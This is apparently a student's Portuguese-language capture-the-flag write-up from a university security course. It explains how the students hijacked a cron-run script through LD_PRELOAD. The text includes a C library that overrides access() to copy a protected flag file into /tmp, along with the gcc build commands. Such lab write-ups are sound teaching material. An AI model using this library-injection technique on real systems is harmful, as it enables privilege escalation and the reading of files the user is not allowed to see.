 
# CTF Semana #4 (Linux Environment)

##### Reconhecimento e recolha de informação

Começamos por aceder ao servidor do desafio Capture the Flag, *ctf-fsi.fe.up.pt*, onde procuramos por uma vulnerabilidade que pudéssemos explorar. Observamos os diversos ficheiros e diretórios existentes e as suas respetivas permissões no sistema. Analisámos o código do script presente na pasta flag_reader e reparamos que usa a função **access** da biblioteca ***<unistd.h>***. Reparamos também que apenas tínhamos acesso de escrita ao diretório **/tmp** no sistema, o que nos poderia vir a ser útil no futuro. Por fim, verificamos que o ficheiro em **/home/flag_reader/my_script.sh** era executado todos os minutos, com permissões do criador, após carregar as variáveis de ambiente do ficheiro env, através do cronscript em **/etc/cron.d/my_cron_script**. Este último ponto chamou-nos à atenção e tornou-se o ponto principal da nossa abordagem.

<img src="../screenshots/ctf4/permissions.png" alt="file permissions">


##### Exploração da vulnerabilidade
Com base na situação identificada, decidimos explorar a vulnerabilidade associada à substituição da biblioteca. A nossa estratégia foi desenvolver uma biblioteca personalizada que executasse uma operação específica à nossa escolha quando fosse chamada.

##### Explicação do ataque

1. Criação da Biblioteca Personalizada
Começamos por criar uma biblioteca personalizada em C. Esta biblioteca continha uma função personalizada que copiaria o ficheiro do diretório /flags/flag.txt para um ficheiro de texto no diretório /tmp. Aqui está o conteúdo do ficheiro:

        #include <stdio.h> 
        #include <stdlib.h>
        #include <unistd.h>
        int access(const char *pathname, int mode){
           system("/bin/cp /flags/flag.txt >> /tmp/myflag.txt");
           return 0;
        } 

2. Compilação da Biblioteca
Compilamos a nossa biblioteca personalizada usando os seguintes comandos:

````bash
$ gcc -fPIC -g -c mylib.c
````
````bash
$ gcc -shared -o libmylib.so.1.0.1 mylib.o -lc
````


3. Substituição da Biblioteca no Diretório Temporário
Como tínhamos permissão para escrever no diretório /tmp, introduzimos a nossa variável de ambiente **LD_PRELOAD=/tmp/libmylib.so.1.0.1** no ficheiro **env** de forma a enganar o sistema a utilizar a nossa biblioteca em vez da biblioteca original.

##### Conclusão
Com a nossa biblioteca, o sistema executou a função **access** e o conteúdo do ficheiro **flag.txt** foi copiado para um ficheiro de texto que nós pudéssemos abrir. Por fim utilizamos o comando **cat** para abrir o novo ficheiro de texto. Desta forma, conseguimos capturar a flag ao explorar a vulnerabilidade.

<img src="../screenshots/ctf4/result.png" alt="flag">

Este exercício destaca a necessidade de compreender o funcionamento dos sistemas e das bibliotecas, bem como a importância da segurança na sua gestão. Além disso, também fortaleceu a nossa habilidade de identificar e explorar vulnerabilidades em ambientes controlados.

